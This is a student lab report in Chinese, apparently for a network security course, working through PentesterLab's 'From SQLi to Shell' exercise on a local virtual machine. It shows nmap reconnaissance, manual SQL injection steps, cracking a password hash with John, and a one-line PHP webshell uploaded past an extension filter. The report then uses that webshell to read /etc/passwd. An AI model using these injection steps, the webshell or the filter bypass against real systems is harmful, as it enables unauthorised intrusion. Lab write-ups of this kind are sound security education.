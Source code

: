 # Chap0x07 从SQL注入到Shell

## 实验要求

- 了解SQL注入和Webshell并完成相关实验

## 环境搭建

- 从PentesterLab提供的 https://pentesterlab.com/exercises/from_sqli_to_shell/iso 网址上下载靶机镜像，该镜像实质是一个Debian服务器。
  - 安装完毕后：![](img/0.png)
- 网络配置
  - 靶机和攻击者均选择Host-only网卡，设置攻击者Host-only网卡的ipv4地址与靶机在同一网段，设置完毕之后，用`ifconfig`查看网卡配置信息
    - 攻击者：![](img/2.png)
    - 靶机：![](img/37.png)
- 连通性测试，在攻击者主机上ping靶机：`ping 192.168.142.3`
  - ![](img/5.png)
- 攻击者使用`netdiscover`扫描网段，确保靶机在网段中
  - ![](img/6.png)
  - 其中参数`-r`的作用是指定ip地址的范围（range的缩写）
- 攻击者使用`nmap -sP 192.168.142.0/24`扫描网段，确保靶机在网段中（与netdiscover作用一致，参考了两位同学的做法）
  - ![](img/3.png)
- 确认网段中含有靶机ip后，攻击者使用`nmap -A 192.168.142.3`扫描靶机的开放端口
  - ![](img/4.png)
- 获得靶机开放端口后，攻击者使用`telnet 192.168.142.3 80`尝试与靶机的80端口建立连接
  - ![](img/8.png)

## 实验过程

- 攻击者访问`192.168.142.3`，将出现如下克苏鲁小怪

  - ![](img/1.png)

- `ctrl+F12`查看网页源码，找到其中包含php的链接

  - ![](img/7.png)

- 尝试访问上一步发现的php链接
  - all.php：![](img/11.png)
  - cat.php?id=1：![](img/12.png)
  - cat.php?id=2：![](img/13.png)
  - cat.php?id=3：![](img/14.png)

- 寻找SQL注入点
  1. 在参数id的值后加上`'`，可以观察到抛出的错误，可以得到使用的SQL语言为MySQL
     -  ![](img/15.jpg)
  2. 在参数后加上`or 1=1`，确认是否存在SQL漏洞
     - 三张图片都显示，说明存在SQL漏洞
     - ![](img/17.png)
  3. 使用`UNION`，枚举列数
     - ![](img/38.png)
     - ![](img/39.png)
  4. 使用`ORDER BY`，枚举列数
     - ![](img/18.png)
     - ![](img/19.png)
  5. 获取信息
     - 使用`database()`、`current_user()`和`version`
     - 如果没有使用正确的列，无法获取正确的信息
       - ![](img/40.png)
     - 经检测，列2可显示正确的信息
       - ![](img/20.png)
       - ![](img/21.png)
       - ![](img/22.png)
     - 查看所有的表名、列名
       - 表名：![](img/23.png)
       - 列名：![](img/27.png)
  6. 查找管理员密码
     - ![](img/26.png)
     - 得到密码的哈希值
  7. 破解密码（两种方法）
     - 用搜索引擎在线破译
       - ![](img/28.png)
     - 使用john工具
       - ![](img/29.png)
  8. 得到管理员密码后，登录
     - ![](img/30.png)
     - ![](img/31.png)
     - done，可以对文件进行各类增删改的操作了

- WebShell

  1. 按照PentesterLab的教程，先创建一个php文件

     - ```php
       <?php
         system($_GET['cmd']);		// 用于运行命令行指令
       ?>
       ```

  2. 试着将它直接上传到靶机服务器上

     - ![](img/32.png)
     - 失败，不接收php文件

  3. 重命名我的`test.php`，在末尾再加上一个`.test`，再次上传

     - 成功，`ctrl+F12`查看页面源码结果如下：
     - ![](img/33.png)

  4. 现在，可以在地址栏输入各种命令行指令查看运行效果了

     - `cmd=cat /etc/passwd`
       - ![](img/34.png)
     - `cmd=uname -a`
       - ![](img/35.png)
     - `cmd=ls`
       - ![](img/36.png)

## 遇到的问题

- 靶机刚安装的时候虚拟机没有为其自动分配ipv4地址，后来发现是因为没有在管理页启动DHCP服务器

  - 管理->主机网络管理器->DHCP服务器启用
  - ![](img/41.png)

- 使用`telnet 192.168.142.3 80`的时候，由于回车没有敲对，出现了`400 bad request`的报错，在stackoverflow上看到了回车的正确姿势

  - ```
    telnet www.bing.com 80   (press ENTER twice!!!)
    GET / HTTP/1.1      (press ENTER)
    Host: www.bing.com  (press ENTER twice!!!)
    ```

- 试用john破译md5的时候，一开始没有使用rockyou.txt，导致运行了20分钟仍然没有得到结果，后来使用了rockyou.txt，使用内置的字典，秒得结果= =

## 参考资料

- [400-bad-request](https://stackoverflow.com/questions/16143869/telnet-with-bad-request-400)
- [PentesterLab](https://pentesterlab.com/exercises/from_sqli_to_shell)
- [SunnyCCC实验报告](https://github.com/CUCCS/2018-NS-Public-SunnyCcc/blob/1d164edc56524b59305b778d205ff1f88e19d0b8/ns-0x07/cha%200x07%20SQL%E6%B3%A8%E5%85%A5%20Webshell.md)
- [Jckling实验报告](https://github.com/CUCCS/2018-NS-Public-jckling/blob/0aacd954db698f695fcd4d37ebde76f579df1160/ns-0x07/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A.md)
- [kali使用john的指南](https://blog.csdn.net/wizardforcel/article/details/52858046)